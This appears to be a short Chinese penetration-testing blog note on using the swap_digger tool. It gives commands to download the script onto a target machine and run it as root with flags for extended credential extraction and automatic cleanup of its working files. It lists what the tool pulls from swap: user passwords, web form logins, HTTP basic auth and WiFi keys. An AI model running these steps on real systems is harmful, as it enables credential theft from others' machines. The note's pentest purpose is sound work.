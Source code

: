 ```yaml
---
title: swap_digger使用方法
date: 2024-01-13 20:29:36
tags: 渗透测试
mathjax: true
---
```


# swap_digger使用方法

在目标机器上下载并运行：

```bash
wget https://raw.githubusercontent.com/sevagas/swap_digger/master/swap_digger.sh
chmod +x swap_digger.sh
sudo ./swap_digger.sh -vx -c
```

-v输出冗余信息 -x获取扩展凭证 -c自动删除生成的工作目录。

功能有：自动提取swap并搜索Linux用户凭证、Web表单凭证、Web表单电子邮件、HTTP基本认证、WiFi SSID和密钥等。
